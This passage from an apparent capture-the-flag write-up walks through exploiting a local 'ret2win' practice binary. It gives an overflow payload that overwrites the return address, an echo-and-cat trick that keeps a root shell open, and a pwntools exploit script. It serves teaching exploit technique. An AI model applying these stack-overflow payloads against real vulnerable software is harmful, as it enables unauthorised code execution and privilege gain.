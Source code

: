 ```bash
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN\x16\x12\x40\x00\x00\x00\x00\x00 
```

Lets run it.

```bash
❯ ./ret2win
Enter Your Name - AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN\x16\x12\x40\x00\x00\x00\x00\x00 
Value Of Number Is - 4c4c4c4c
[1]    5277 segmentation fault (core dumped)  ./ret2win
```

We got an error because when we typed the payload manually with `\x16\x12\x40...`, the program read those characters literally as the text `\`, `x`, `1`, `6`, and so on instead of interpreting them as the raw binary bytes for the address. To fix this, we need to send the actual byte values, for example by using `echo -e` or a script that sends the binary data correctly.

```bash
❯ echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN\x16\x12\x40\x00\x00\x00\x00\x00' | ./ret2win
Enter Your Name - Value Of Number Is - 4c4c4c4c
[+] PWNED!!!
```

 And we PWNED the program since I am running this program locally we won't get flag. But we don't want flag only we want whole shell as root. It would be more fun than just flag. Its not like we didn't got shell we got it but it exits immediately. So to receive it and run we can run this payload:

```bash
(echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN\x16\x12\x40\x00\x00\x00\x00\x00'; cat) | ./ret2win
```

```bash
❯ (echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN\x16\x12\x40\x00\x00\x00\x00\x00'; cat) | ./ret2win
Enter Your Name - Value Of Number Is - 4c4c4c4c
[+] PWNED!!!
id
uid=0(root) gid=1000(at0m) groups=1000(at0m),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),105(lpadmin),125(sambashare),128(docker)
```

Now writing exploit in Python. Its more easier and we don't have to do that `cat` thing.

```python
#!/usr/bin/python3 

from pwn import *

# Load the binary so we can access symbols like 'win'
elf = ELF('ret2win')

# Start the process locally
io = process('ret2win')

# Create payload:
# cyclic(56) generates 56 bytes padding to reach return address (offset)
# p64 packs the address of 'win' function in little-endian 8-byte format
payload = cyclic(56) + p64(elf.sym.win)

# Send the payload to the program
io.sendline(payload)

# Give control to user for interactive shell/session after exploit runs
io.interactive()
```